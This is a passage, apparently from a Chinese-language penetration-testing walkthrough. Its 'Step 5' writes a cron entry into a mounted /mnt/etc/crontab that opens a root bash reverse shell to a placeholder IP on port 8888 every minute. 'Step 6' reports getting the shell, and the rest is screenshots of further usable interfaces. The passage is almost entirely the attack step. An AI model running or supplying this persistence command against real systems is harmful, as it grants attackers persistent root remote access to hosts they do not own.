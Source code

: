 ```plain
Step 5：写计划任务
```

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```

Step 6：成功获取 shell

[![](assets/1701826061-9da6ccad4958d19e01b238a8d5294d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165531-40489a4c-7314-1.png)

**接口扩展**  
补充一些可用接口：

[![](assets/1701826061-4343cca5314a03fa82533194cbae241e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165610-578bd958-7314-1.png)
